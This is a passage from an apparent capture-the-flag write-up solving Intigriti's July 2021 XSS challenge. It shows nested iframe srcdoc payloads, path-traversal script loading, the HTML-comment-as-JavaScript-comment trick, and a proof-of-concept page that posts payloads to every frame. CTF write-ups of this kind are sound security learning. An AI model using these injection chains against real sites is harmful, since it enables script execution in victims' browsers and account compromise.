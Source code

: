 NB: I needed to break the closing `</script>` so it won't break the script initially.

However, nothing happened with this payload. No error, no console output, nothing saying the CSP blocked it. When checking the DOM, we can see, that the `<script>` will be appended into a `<span>` tag. This is also what we see in the `log` method. However script tags do not work inside of `span` elements. We somehow need to break out of this, to get script execution. Prepending a `</span>` does also not work, because of the way, the `span` element is created. Using another `iframe` with `srcdoc` attribute helped us getting script execution:

```js
const base=`<iframe name=store srcdoc="<iframe srcdoc='<a id=admin href=ftp:test:test@a?c=${encodeURIComponent(`<iframe srcdoc='<script src=/analytics%2f..%2findex.php>`).replace(/'/g, "%27")}%3c${encodeURIComponent(`/script>`)}${encodeURIComponent(`'</iframe>`).replace(/'/g, "%27")}>test</a>' name=users>"></iframe><img id="DEV"><iframe src="console.php">`;
```

NB: `encodeURIComponent` does not encode single quotes, thus we needed to append some `.replace(/'/g, "%27")` where needed.

However, this looked promising as we got a `Uncaught SyntaxError: expected expression, got '<'` in the console. This was obviously since the index.php did not contain vaild JavaScript. 

To get valid JavaScript I checked all the smart parts of the challenge again and was thinking about, why the code inside the htmledit.php is also reflected at the top of the page inside an HTML comment. Then I remembered some years ago, where JavaScript inside of (X)HTML often was surrounded with HTML comments to prevent browsers not beeing able to run JavaScript print it into the DOM. A small research found this StackOverflow comment: https://stackoverflow.com/a/40890155/1666993

`<!--` are treated as `//` in JavaScript. Great, we just try to load the script from htmledit.php, having a `code` with a linebreak followed by the target `alert(document.domain)`:

```js
const base=`<iframe name=store srcdoc="<iframe srcdoc='<a id=admin href=ftp:test:test@a?c=${encodeURIComponent(`<iframe srcdoc='<script src=/analytics%2f..%2fhtmledit.php?code=${encodeURIComponent(`\nalert(document.domain);/*`)}>`).replace(/'/g, "%27")}%3c${encodeURIComponent(`/script>`)}${encodeURIComponent(`'</iframe>`).replace(/'/g, "%27")}>test</a>' name=users>"></iframe><img id="DEV"><iframe src="console.php">`;
```

And voilá, we got our XSS!

##############

The full PoC code:
```html
<html>
  <head></head>
  <body>
    <script>
      function sendToAllFrames(wind, data) {
        for (let i = 0; i < wind.frames.length; i++) {
          wind.frames[i].postMessage(data, "*");
          if (wind.frames[i].frames.length > 0)
            sendToAllFrames(wind.frames[i], data);
        }
      }

      const url = `https://challenge-0721.intigriti.io/htmledit.php?code=`;
      const base = `<iframe name=store srcdoc="<iframe srcdoc='<a id=admin href=ftp:test:test@a?c=${encodeURIComponent(
        `<iframe srcdoc='<script src=/analytics%2f..%2fhtmledit.php?code=${encodeURIComponent(
          `\nalert(document.domain);/*`
        )}>`
      ).replace(/'/g, "%27")}%3c${encodeURIComponent(
        `/script>`
      )}${encodeURIComponent(`'</iframe>`).replace(
        /'/g,
        "%27"
      )}>test</a>' name=users>"></iframe><img id="DEV"><iframe src="console.php">`;
```